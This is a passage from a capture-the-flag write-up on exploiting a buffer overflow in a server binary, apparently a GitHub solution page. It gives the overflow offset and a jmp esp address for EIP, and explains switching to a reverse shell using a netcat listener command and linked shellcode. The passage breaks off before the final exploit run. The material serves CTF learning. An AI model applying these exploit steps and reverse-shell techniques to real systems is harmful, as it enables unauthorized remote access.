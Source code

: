 To get the flag, we combine all our gathered knowledge:

* Overflow the buffer with `118` bytes
* Force the program to jump to our shellcode by supplying the address `0x080488b0` for `jmp esp` to `EIP`
* Find a suitable shellcode

Regarding the shellcode, we cannot use the standard shellcode provided by `pwntools`' `shellcraft` like [this python script](./solve-1.py):

```bash
$ PS1='localshell $ '
localshell $ python solve-1.py
[+] Opening connection to localhost on port 9000: Done
fash$ 
[*] Closed connection to localhost port 9000
```

The shell appears on the wrong side, namely on our server, `srv`:

```bash
$ PS1='remoteserver $ '
remoteserver $ ./srv
Received client from 127.0.0.1:37405
Processing client: pid: 3112 socket: 4
$ ls
solve-1.py  srv  srv1.tar.gz
```

We have to force the program to give us shell using another method: Opening a backdoor using a reverse shell. See [here](http://morgawr.github.io/hacking/2014/03/29/shellcode-to-reverse-bind-with-netcat/) and [here](http://null-byte.wonderhowto.com/how-to/create-reverse-shell-remotely-execute-root-commands-over-any-open-port-using-netcat-bash-0132658/) how it works. Effectively, you switch server and client, e.g. to avoid filtered ports:

* First, listen on your local machine on a given port, e.g. `netcat -l 127.1.1.1 -vp 11111`
* Then, force the remote program to contact your local machine and execute the shellcode on successful contact, essentially providing a shell

I found [this tiny reverse shell on shell-storm](http://shell-storm.org/shellcode/files/shellcode-838.php) and modified it to fit my needs in [this python code](./solve-2.py).

Listen on our local machine:

```bash
$ PS1='localmachine $ '
localmachine $ netcat -l 127.1.1.1 -vp 11111
Listening on [127.1.1.1] (family 0, port 11111)
```

The server runs on the remote machine:

```bash
$ PS1='remotemachine $ '
remotemachine $ ./srv
```

And we run our exploit from another terminal at our local machine:
